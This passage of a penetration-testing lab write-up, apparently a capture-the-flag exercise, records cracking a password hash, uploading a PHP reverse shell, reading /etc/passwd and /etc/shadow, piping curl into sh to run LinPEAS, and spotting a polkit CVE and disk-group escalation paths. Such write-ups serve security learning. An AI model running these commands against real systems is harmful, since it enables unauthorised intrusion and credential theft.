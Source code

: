 - Checked `filemanager/config/.htusers.php` and found `dora` password hash `$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS`
![[Cybersecurity-Resources/images/Pasted image 20241007203309.png]]
- Ran `john` against password hash for `dora` and found credential `dora:doraemon`
![[Cybersecurity-Resources/images/Pasted image 20241007203751.png]]
---
# Exploitation
## Name of the technique
- Identified option to upload files to Admin dashboard
![[Cybersecurity-Resources/images/Pasted image 20241007202007.png]]
- Created PHP reverse shell file with `revshells.com` and saved file as `shell2.php`
![[Cybersecurity-Resources/images/Pasted image 20241008161714.png]]
- Uploaded `shell2.php`, attempted to navigate to `192.168.137.16/filemanager/shell2.php` and caught reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241008161857.png]]
---
# Lateral Movement to user
## Local Enumeration
- Upgraded to full shell, switched user with credentials `dora:doraemon`, then upgraded to full shell again
![[Cybersecurity-Resources/images/Pasted image 20241008162333.png]]
- Navigated to `/home/dora` and printed file `local.txt`
![[Cybersecurity-Resources/images/Pasted image 20241008162600.png]]
- Ran `cat /etc/passwd` to identify any other users & `cat /etc/shadow` to check access
![[Cybersecurity-Resources/images/Pasted image 20241008162827.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `sudo -l` to check sudo privileges for `dora`
![[Cybersecurity-Resources/images/Pasted image 20241008162910.png]]
- Ran `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` to download and execute `LinPeas`
![[Cybersecurity-Resources/images/Pasted image 20241008163706.png]]
- Identified by `LinPeas` as vulnerable to [CVE-2021-3560](https://github.com/UNICORDev/exploit-CVE-2021-3560)
![[Cybersecurity-Resources/images/Pasted image 20241008163811.png]]
	- CVE-2021-3560 can be used to bypass polkitd credentials checks to elevate a user to `root`
- Identified user `dora` is part of `disk` group
![[Cybersecurity-Resources/images/Pasted image 20241008170025.png]]
	- Also ran `- find /dev -group disk` to check partitions owned by `disk`
		![[Cybersecurity-Resources/images/Pasted image 20241008170348.png]]
- Identified ssh config file
![[Cybersecurity-Resources/images/Pasted image 20241008164637.png]]
- Identified interesting files modified in last 5 mins
![[Cybersecurity-Resources/images/Pasted image 20241008164753.png]]